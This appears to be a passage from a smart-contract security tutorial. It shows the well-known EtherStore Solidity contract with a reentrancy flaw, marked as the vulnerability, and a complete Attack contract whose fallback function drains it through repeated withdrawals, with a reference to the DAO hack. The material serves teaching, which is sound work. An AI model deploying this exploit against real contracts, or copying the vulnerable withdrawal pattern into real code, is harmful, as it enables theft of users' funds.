 Attacks of this kind were used in the infamous [DAO](https://en.wikipedia.org/wiki/The_DAO_(organization)) hack.



```javascript
1 contract EtherStore {
2
3 	uint256 public withdrawalLimit = 1 ether;
4 	mapping(address => uint256) public lastWithdrawTime;
5 	mapping(address => uint256) public balances;
6   //存款
7 	function depositFunds() public payable {
8 		balances[msg.sender] += msg.value;
9 	}
10  //取款
11 	function withdrawFunds (uint256 _weiToWithdraw) public {
12 		require(balances[msg.sender] >= _weiToWithdraw);
13 		// limit the withdrawal
14 		require(_weiToWithdraw <= withdrawalLimit);
15 		// limit the time allowed to withdraw
16 		require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
17 		require(msg.sender.call.value(_weiToWithdraw)()); //the vulnerability
18 		balances[msg.sender] -= _weiToWithdraw;
19 		lastWithdrawTime[msg.sender] = now;
20 	}
21 }
```



Consider an attacker who has created the contract :

```javascript
1 import "EtherStore.sol";
2
3 contract Attack {
4 	EtherStore public etherStore;
5
6 	// intialize the etherStore variable with the contract address
7 	constructor(address _etherStoreAddress) {
8 		etherStore = EtherStore(_etherStoreAddress);
9 	}
10
11 	function attackEtherStore() public payable {
12 		// attack to the nearest ether
13 		require(msg.value >= 1 ether);
14 		// send eth to the depositFunds() function
15 		etherStore.depositFunds.value(1 ether)();
16 		// start the magic
17 		etherStore.withdrawFunds(1 ether);
18 	}
19
20 	function collectEther() public {
21 		msg.sender.transfer(this.balance);
22 	}
23
24 	// fallback function - where the magic happens
25 	function () payable {
26 		if (etherStore.balance > 1 ether) {
27 			etherStore.withdrawFunds(1 ether);
28 		}
29 	}
30 }
```
